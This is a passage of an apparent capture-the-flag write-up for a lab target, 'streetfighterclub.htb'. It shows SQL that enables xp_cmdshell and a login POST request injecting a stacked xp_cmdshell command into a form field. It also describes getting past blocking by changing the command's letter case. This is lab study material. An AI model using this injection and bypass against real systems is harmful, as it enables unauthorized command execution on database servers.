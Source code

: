 ```sql
EXEC sp_configure 'show advanced options', 1;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

```http
POST /old/verify.asp HTTP/1.1
Host: members.streetfighterclub.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://members.streetfighterclub.htb
Connection: close
Referer: http://members.streetfighterclub.htb/old/Login.asp
Cookie: ASPSESSIONIDSQRDQTCD=GPFNOGOAIKIKAKLOPLMLHBBA; 
Upgrade-Insecure-Requests: 1



username=wad1awdawd23&password=t123awd34&logintype=3;EXEC+xp_cmdshell+"ping+10.10.14.11"--+-&B1=LogIn
```

However, I got no ping back. In this case, there might be something blocking us on the website. I searched ways to obfuscate it, in case there was Defender or something blocking us, and this site had a pretty good way:

{% embed url="https://www.midnightdba.com/Jen/2016/04/xp_cmdshell-isnt-evil/" %}

Just use `XP_cmdshell` instead of `xp_cmdshell`, and the ping would work:

<figure><img src="../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>
